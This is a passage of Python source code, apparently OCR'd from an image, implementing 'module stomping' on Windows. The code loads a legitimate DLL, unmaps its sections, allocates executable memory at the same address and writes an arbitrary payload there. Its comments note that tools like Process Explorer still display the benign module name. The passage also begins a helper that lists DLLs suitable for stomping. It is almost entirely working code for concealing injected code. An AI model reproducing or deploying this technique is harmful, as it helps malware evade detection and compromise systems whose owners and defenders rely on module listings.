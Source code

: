 ```python
        Stomp a legitimate DLL with payload
        
        Args:
            target_dll: Name of DLL to stomp (choose unused one)
            payload_bytes: Payload to inject
        
        Returns:
            True if successful
        """
        if sys.platform != 'win32':
            return False
        
        try:
            # 1. Load target DLL
            dll_handle = self.kernel32.LoadLibraryW(target_dll)
            if not dll_handle:
                return False
            
            # 2. Get module info
            module_info = MODULEINFO()
            if not self.kernel32.K32GetModuleInformation(
                self.kernel32.GetCurrentProcess(),
                dll_handle,
                ctypes.byref(module_info),
                ctypes.sizeof(module_info)
            ):
                return False
            
            # 3. Unmap original sections using NtUnmapViewOfSection
            self.ntdll.NtUnmapViewOfSection(
                self.kernel32.GetCurrentProcess(),
                module_info.lpBaseOfDll
            )
            
            # 4. Allocate new memory at same address
            new_base = self.kernel32.VirtualAlloc(
                module_info.lpBaseOfDll,
                len(payload_bytes),
                0x3000,  # MEM_COMMIT | MEM_RESERVE
                0x40     # PAGE_EXECUTE_READWRITE
            )
            
            # 5. Write payload
            ctypes.memmove(new_base, payload_bytes, len(payload_bytes))
            
            # 6. Fix page protections (should be RX not RWX)
            old_protect = wintypes.DWORD()
            self.kernel32.VirtualProtect(
                new_base,
                len(payload_bytes),
                0x20,  # PAGE_EXECUTE_READ
                ctypes.byref(old_protect)
            )
            
            # Module name still shows as target_dll in Process Explorer
            # But code is our payload
            return True
            
        except:
            return False
    
    def get_stompable_dlls(self) -> List[str]:
        """
```